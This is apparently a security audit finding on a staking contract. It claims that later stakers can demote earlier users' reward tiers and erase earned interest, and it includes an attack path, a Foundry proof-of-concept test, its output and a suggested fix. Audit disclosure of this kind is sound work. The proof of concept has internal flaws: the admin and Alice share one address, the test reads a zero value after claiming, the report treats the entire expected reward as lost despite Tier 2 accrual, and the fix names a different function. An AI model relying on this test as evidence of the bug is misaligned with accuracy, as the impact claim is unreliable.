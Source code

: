 Proper Blush Aardvark

High

# [High] Stakers can grief earlier users by downgrading their tier and erasing earned rewards (LayerEdgeStaking::_checkBoundariesAndRecord)

### Summary

Missing reward checkpointing during tier transitions will cause a loss of earned interest for stakers as unprivileged users will indirectly downgrade others' tiers through new deposits, which retroactively alters reward calculations.

### Root Cause

In [LayerEdgeStaking.sol::_checkBoundariesAndRecord](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L841-L900), the contract updates a user's tier in response to other users staking or unstaking, but does not call `_updateInterest()` for the affected users before changing their tier.



### Internal Pre-conditions

1. [User A needs to stake] before any other users to receive Tier 1 APY.
2. [User A needs to accrue rewards] for some time without claiming interest.
3. [User B needs to stake] enough to push User A’s rank into Tier 2.

### External Pre-conditions

None; this attack is purely internal and does not rely on external protocols.

### Attack Path

1. User A (Alice) stakes early and enters Tier 1.
2 . Time passes, and Alice accrues high-APY interest.
3. User B (Bob) stakes after Alice, and the contract updates the Fenwick tree.
4. Alice is demoted to Tier 2 via `_checkBoundariesAndRecord()` without any reward checkpointing.
5. When Alice finally claims, `calculateUnclaimedInterest()` uses her new tier (Tier 2) for the entire time window, resulting in silent loss of Tier 1 rewards.
6. Bob can repeat this for other users by continuously pushing users across tier boundaries.

### Impact

The affected staker (e.g., Alice) suffers an approximate loss of 209.58 tokens in this scenario.
The attacker (Bob) does not gain tokens but can grief other stakers to silently erase their previously earned rewards — potentially undermining the protocol’s economic trust assumptions.

### PoC

This test shows that:
- A user who stakes early earns Tier 1 rewards.
- A second user stakes later, changing tree structure and demoting the original staker to Tier 2.
- When the original staker claims rewards, the contract calculates them entirely based on their final tier (Tier 2), even though they were in Tier 1 for part of the time.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import {ERC1967Proxy} from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import {LayerEdgeStaking} from "targets/2025-05-layeredge-reynoldsc062/edgen-staking/src/stake/LayerEdgeStaking.sol";
import {MockERC20} from "./mocks/MockERC20.sol";

contract TierGriefingTest is Test {
    LayerEdgeStaking staking;
    MockERC20 token;

    address admin = address(0xA11CE);
    address alice = address(0xA11CE);
    address bob = address(0xB0B);

    uint256 constant MIN_STAKE = 3000 ether;

    function setUp() public {
        token = new MockERC20(
            "EdgeToken",
            "EDGEN",
            address(this),
            1_000_000 ether
        );

        LayerEdgeStaking implementation = new LayerEdgeStaking();
        ERC1967Proxy proxy = new ERC1967Proxy(
            address(implementation),
            abi.encodeCall(LayerEdgeStaking.initialize, (address(token), admin))
        );
        staking = LayerEdgeStaking(payable(address(proxy)));

        // Fund and approve Alice and Bob
        token.mint(alice, 2 * MIN_STAKE);
        token.mint(bob, MIN_STAKE);
        vm.prank(alice);
        token.approve(address(staking), type(uint256).max);
        vm.prank(bob);
        token.approve(address(staking), type(uint256).max);
    }

    function test_AliceTierGriefedByBobStaking() public {
        // Alice stakes first — becomes Tier 1
        vm.prank(alice);
        staking.stake(MIN_STAKE);

        // Advance time so she earns Tier 1 rewards
        vm.warp(block.timestamp + 30 days);

        // Bob stakes — changes tree structure and bumps Alice out of Tier 1
        vm.prank(bob);
        staking.stake(MIN_STAKE);

        // Advance another 30 days
        vm.warp(block.timestamp + 30 days);

        // Fund rewards so Alice can claim
        uint256 rewardFunding = 10000 ether;
        token.mint(admin, rewardFunding);
        vm.startPrank(admin);
        token.approve(address(staking), rewardFunding);
        staking.depositRewards(rewardFunding);
        vm.stopPrank();

        // Alice claims interest (without ever updating her tier manually)
        vm.prank(alice);
        staking.claimInterest();

        // Actual reward given to Alice
        (, , , uint256 actualReward) = staking.getUserInfo(alice);

        // Expected: Alice should earn 30 days at Tier 1 + 30 days at Tier 2
        uint256 t1Reward = (MIN_STAKE * 50e18 * 30 days) /
            (365 days * 1e18) /
            100;
        uint256 t2Reward = (MIN_STAKE * 35e18 * 30 days) /
            (365 days * 1e18) /
            100;
        uint256 expectedReward = t1Reward + t2Reward;

        assertEq(
            actualReward,
            expectedReward,
            "Alice was griefed: rewards do not reflect actual tier duration"
        );
    }
}
```

**Test Result:**
```bash
forge test --match-path test/RewardTimingIssueTest.t.sol -vv
[⠊] Compiling...
[⠑] Compiling 1 files with Solc 0.8.22
[⠘] Solc 0.8.22 finished in 7.92s
Compiler run successful!

Ran 1 test for test/RewardTimingIssueTest.t.sol:TierGriefingTest
[FAIL: Alice was griefed: rewards do not reflect actual tier duration: 0 != 209589041095890410958] test_AliceTierGriefedByBobStaking() (gas: 1367229)
Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 7.79ms (1.55ms CPU time)

Ran 1 test suite in 149.91ms (7.79ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/RewardTimingIssueTest.t.sol:TierGriefingTest
[FAIL: Alice was griefed: rewards do not reflect actual tier duration: 0 != 209589041095890410958] test_AliceTierGriefedByBobStaking() (gas: 1367229)

Encountered a total of 1 failing tests, 0 tests succeeded
```

Alice earned 209.59 tokens, but received 0 due to retroactive tier change and lack of reward checkpointing.

### Mitigation

Update `_checkBoundariesAndRecord()` to call `_updateInterest()` on any user whose tier is modified before applying the new tier.

**Recommended Code Fix:**
```solidity
function _findAndRecordTierChange(uint256 rank, uint256 _stakerCountInTree) internal {
    uint256 joinIdCross = stakerTree.findByCumulativeFrequency(rank);
    address userCross = stakerAddress[joinIdCross];

+   _updateInterest(userCross); // Ensure rewards are locked in before tier change

    uint256 _rank = stakerTree.query(joinIdCross);
    Tier toTier = _computeTierByRank(_rank, _stakerCountInTree);
    _recordTierChange(userCross, toTier);
}
```

This ensures the user’s earned rewards are snapshotted before any automatic tier demotion caused by other users’ actions.